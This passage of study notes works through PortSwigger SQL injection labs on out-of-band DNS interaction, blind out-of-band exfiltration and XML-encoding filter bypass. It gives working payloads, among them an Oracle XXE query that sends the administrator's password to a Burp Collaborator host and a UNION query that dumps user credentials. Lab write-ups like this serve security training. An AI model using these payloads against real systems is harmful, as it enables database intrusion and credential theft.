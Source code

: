 ```
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

- Vulnerable parameter: tracking cookie
- End goal: SQLi and cause a DNS lookup

![[Pasted image 20240918095729.png]]
- Payload to be inserted into Cookie: Tracking Id parameter (also it could be encoded in HTML format when inserted into burp):
`' | | SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`
![[Pasted image 20240918095940.png]]
![[Pasted image 20240918100131.png]]


## **16. Blind SQL injection with out-of-band data exfiltration**

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.


Same as previous example but this time we will concatenate['| | (subquery) ' | |]subquery on our burp collaborator server which is a select statement that will extract `password` from `users` where `username` is administrator:
`' | | SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual --`

![[Pasted image 20240918102633.png]]

## **17**. **Lab: SQL injection with filter bypass via XML encoding**

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

![[Pasted image 20240918100813.png]]
![[Pasted image 20240918100905.png]]

![[Pasted image 20240918100602.png]]
![[Pasted image 20240918100938.png]]

- Payload to insert into burp hex encoded:
  `1 UNION SELECT username | |  '~'   | | password FROM users`
  ![[Pasted image 20240918101148.png]]
  